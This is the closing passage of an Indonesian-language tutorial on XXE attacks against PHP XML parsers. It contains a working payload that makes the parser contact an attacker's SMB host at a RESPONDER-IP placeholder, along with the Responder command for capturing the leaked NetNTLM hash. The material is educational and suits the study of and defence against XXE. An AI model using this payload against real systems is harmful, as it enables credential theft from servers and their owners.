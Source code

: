 Untuk berinteraksi dengan protokol `SMB` \(khusus pada kasus XXE di php\) kita dapat memanfaakan wrapper `php://` dan URI untuk berinteraksi protokol SMB adalah `//`

Untuk masalah payload, tentu saja menggunakan external entity \(General/Parameter\).

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY steal SYSTEM "php://filter/convert.base64-encode/resource=//RESPONDER-IP/WhatEver">
]>
<root>
<name>test</name>
<tel>021212</tel>
<email>&steal;</email>
<password>pwd</password>
</root>
```

Command untuk menjalankan Responder.

```bash
$ ./Responder.py -I <INTERFACES_NAME>
```

![Intercept NetNTML hash menggunakan Responder](../.gitbook/assets/netntlm.PNG)

### XXE And Open XML Document

### XXE And SSRF

## Conclusion

XXE attack terjadi karena XML Parser mengijinkan penggunaan External Entity. XXE adalah bug yang terjadi pada teknologi yang spesifik yaitu XML, apabila masih belum mengerti tentang XXE, itu dikarenakan kurang nya pengetahuan terhadap XML itu sendiri.

## Update

Tulisan ini akan terus diupdate, karena memang masih banyak yang ingin dibahas mengenai XXE ini, terutama sifat-sifat dari XML parser dari berbagai bahasa pemrograman.

## Reference :

[https://www.w3schools.com/xml/xml\_dtd\_intro.asp](https://www.w3schools.com/xml/xml_dtd_intro.asp) [https://xmlwriter.net/xml\_guide/entity\_declaration.shtml](https://xmlwriter.net/xml_guide/entity_declaration.shtml) [https://gist.github.com/staaldraad/01415b990939494879b4](https://gist.github.com/staaldraad/01415b990939494879b4) [https://www.xml.com/pub/a/98/08/xmlqna2.html](https://www.xml.com/pub/a/98/08/xmlqna2.html) [https://www.liquid-technologies.com/DTD/Structure/ENTITY.aspx](https://www.liquid-technologies.com/DTD/Structure/ENTITY.aspx) [https://www.acunetix.com/blog/articles/band-xml-external-entity-oob-xxe/](https://www.acunetix.com/blog/articles/band-xml-external-entity-oob-xxe/) [https://gardienvirtuel.ca/fr/actualites/from-xml-to-rce.php](https://gardienvirtuel.ca/fr/actualites/from-xml-to-rce.php)

